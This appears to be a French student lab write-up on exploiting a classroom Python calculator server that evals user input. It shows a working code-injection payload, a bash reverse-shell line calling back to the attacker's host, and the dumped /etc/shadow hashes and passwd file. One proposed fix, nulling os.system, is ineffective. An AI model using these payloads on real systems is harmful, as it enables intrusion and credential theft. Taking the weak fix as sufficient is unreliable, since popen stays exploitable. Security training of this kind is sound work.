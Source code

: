 # TP5 SECU : Exploit, pwn, fix

Encore un TP de dév, mais où vous ne développez pas ! Pas mal nan ?

Le but : **exploiter un code vulnérable et proposer des remédiations** pour qu'il ne le soit plus.

La mise en situation est assez proche d'un cas réel, en restant dans des conditions de TP.

> **Pour maximiser le fun, ne discutez de rien de tout ça ni avec les dévs, ni avec les infras**, restez dans votre secte de sécu :D Si tu joues le jeu c'est un exercice cool, moins tu le jeu, plus il est nul !

![Gunna be hax](./img/gunna_be_hacker.png)

## Sommaire

- [TP5 SECU : Exploit, pwn, fix](#tp5-secu--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

➜ **Je vous filerai un lien en cours pour télécharger le client d'une application**

- pas possible de commencer le TP tant que j'ai rien donné donc, attendez le feu vert !

➜ Votre but : 🏴‍☠️ **prendre le contrôle du serveur** 🏴‍☠️

## 1. Reconnaissance

> ***Cette section est en grande partie uniquement réalisable en cours. Perdez pas de temps.***

➜ On a de la chance dis donc ! Du Python pas compilé !

- prenez le temps de lire le code
- essayez de le lancer et de capter à quoi il sert

🌞 **Déterminer**

Grace à une capture wireshark je peux voir que le programe essaye de se conecter a l'ip 10.1.1.2 sur le port 13337


[voici la capture wireshark](./tcp.pcapng)

🌞 **Scanner le réseau**



🌞 **Connectez-vous au serveur**

```bash
nico@debian:~/Documents/Resaux-B2$ /bin/python3 /home/nico/Documents/Resaux-B2/Tp5/client.py
Veuillez saisir une opération arithmétique : 10+8
'18'
```

c'est une calculette

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

Ca doit lever un giga red flag dans votre esprit de hacker ça. Tu saisis ce que tu veux, et le serveur le lit et l'interprète.

🌞 **Injecter du code serveur**

voici un ls sur le serveur

```bash
nico@debian:~/Documents/Resaux-B2$ /bin/python3 /home/nico/Documents/Resaux-B2/Tp5/client.py
'afs\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n'
```

## 3. Reverse shell


🌞 **Obtenez un reverse shell sur le serveur**

sur un premier shell j'écoute le port 1111

```bash
PS C:\Users\nicop> ncat -lvp 1111
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.1.1.11:60606.
bash: cannot set terminal process group (1434): Inappropriate ioctl for device
bash: no job control in this shell
[root@localhost /]#
```

sur un autre je me connect au server grace a ncat et j'inject du code
```bash

PS C:\Users\nicop> ncat 10.1.1.11 13337
lkjh$
Hello__import__('os').popen('bash -i >& /dev/tcp/10.1.1.1/1111 0>&1').read()

```


🌞 **Pwn**

`/etc/shadow`:
```bash
root:$6$glQgzdEr8vm6uc23$6jS7IevTizLCm4Je1rBMKLGA8eFXwPHMR2xfzkzkBrmVVdRJvoR.XRfyUZJYf6N8WvIHRr8kL/mvzakVjWOgd1::0:99999:7:::
bin:*:19453:0:99999:7:::
daemon:*:19453:0:99999:7:::
adm:*:19453:0:99999:7:::
lp:*:19453:0:99999:7:::
sync:*:19453:0:99999:7:::
shutdown:*:19453:0:99999:7:::
halt:*:19453:0:99999:7:::
mail:*:19453:0:99999:7:::
operator:*:19453:0:99999:7:::
games:*:19453:0:99999:7:::
ftp:*:19453:0:99999:7:::
nobody:*:19453:0:99999:7:::
systemd-coredump:!!:19816::::::
dbus:!!:19816::::::
tss:!!:19816::::::
sssd:!!:19816::::::
chrony:!!:19816::::::
sshd:!!:19816::::::
systemd-oom:!*:19816::::::
nico:$6$SVO8KK00OeQx2yZ9$NZMblD1oOTqa4ws.nJa6OoMCIVIHknuqrEnMcVqKV8QjJWfzTM0qCEISH2JD8P9bEnMTtQ/2c2PsxN4Hxz76E.::0:99999:7:::
``` 


`/etc/passwd` 

```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
chrony:x:997:994:chrony system user:/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
systemd-oom:x:992:992:systemd Userspace OOM Killer:/:/usr/sbin/nologin
nico:x:1000:1000:nico:/home/nico:/bin/bash
```
- voler le code serveur de l'application

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0', 13337))

s.listen(1)
conn, addr = s.accept()

while True:

    try:
        # On re├ºoit la string Hello du client
        data = conn.recv(1024)
        if not data: break
        print(f"Donn├®es re├ºues du client : {data}")

        conn.send("Hello".encode())

        # On re├ºoit le calcul du client
        data = conn.recv(1024)
        data = data.decode().strip("\n")

        # Evaluation et envoi du r├®sultat
        res  = eval(data)
        conn.send(str(res).encode())

    except socket.error:
        print("Error Occured.")
        break

conn.close()
```

- déterminer si d'autres services sont disponibles sur la machine

```bash
[root@localhost /]# ss -alntupe
ss -alntupe
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess

udp   UNCONN 0      0          127.0.0.1:323        0.0.0.0:*    users:(("chronyd",pid=678,fd=5)) ino:19267 sk:1 cgroup:/system.slice/chronyd.service <->
udp   UNCONN 0      0              [::1]:323           [::]:*    users:(("chronyd",pid=678,fd=6)) ino:19268 sk:2 cgroup:/system.slice/chronyd.service v6only:1 <->
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=717,fd=3)) ino:19803 sk:3 cgroup:/system.slice/sshd.service <->
tcp   LISTEN 0      1            0.0.0.0:13337      0.0.0.0:*    users:(("python3",pid=11115,fd=3)) ino:32686 sk:4 cgroup:/system.slice/calc.service <->
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=717,fd=4)) ino:19812 sk:5 cgroup:/system.slice/sshd.service v6only:1 <->
[root@localhost /]#

```

à part le serveur aucun service anormale ne troune 


## II. Remédiation

🌞 **Proposer une remédiation dév**

suprimer eval on peut exécuter le code phyton que l'on veut avec donc le remplacer par 🌞literal_eval🌞
définir dans le code des imports que l'on veut interdire:
```python
import sys
sys.modules['os'].system = None
```




🌞 **Proposer une remédiation système**

creer un autre user pour faire tourner le code du serveur pour pas qu'il tourne en root sur la machine

déffinir un parfeux pour bloquer les sorti du serveur sauf réponse utile exemple les pings